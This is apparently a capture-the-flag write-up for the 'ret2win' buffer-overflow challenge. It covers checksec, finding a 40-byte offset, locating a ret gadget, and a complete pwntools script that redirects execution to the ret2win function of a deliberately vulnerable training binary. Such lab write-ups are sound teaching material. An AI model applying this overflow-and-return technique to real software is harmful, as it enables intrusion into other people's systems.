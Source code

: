 # ret2win 

This challenge is an easy buffer overflow attack.

## Basic file checks
The NX is enabled, so we can't execute code in the stack to do a shellcode attack 
![Alt Text](img/checksec.png)

## View the Source Code
So we disassemble it and we saw that is a ret2win() function
which it prints the flag when it be called
![Alt Text](img/ret2win_func.png)

The problem here it is that the ret2win() func, is never called by the main
so we are not able to get the flag. That's where the ret2win attack comes (obviously).

## Exploit
The first thing that we want to do is to crash the program to be able to control it.
We found the the offset to be 40 with pwndbg

We need a ret gadget to return to cause it's a x64 bit binary and not x32
We found it with ropper
![Alt Text](img/ret_gadget.png)

After these we wrote a simply python script with pwntools and we took the flag!
```python
#!/usr/bin/env python3 
from pwn import *

elf = context.binary = ELF('./ret2win', checksec=False)
p = process(elf.path)

padding = b"A" * 40
ret_gadget = 0x40053e #ret address

payload = flat(
        padding,
        ret_gadget,
        elf.symbols.ret2win
        )

p.sendlineafter(b'>', payload)
success(p.recvall())
```

![Alt Text](img/successful_pwntools_exploit.png)

We even write a manual exploit in terminal using python2 that has a lot of fun.
![Alt Text](img/python2_manualexploit.png)
![Alt Text](img/successful_manualexploit.png)
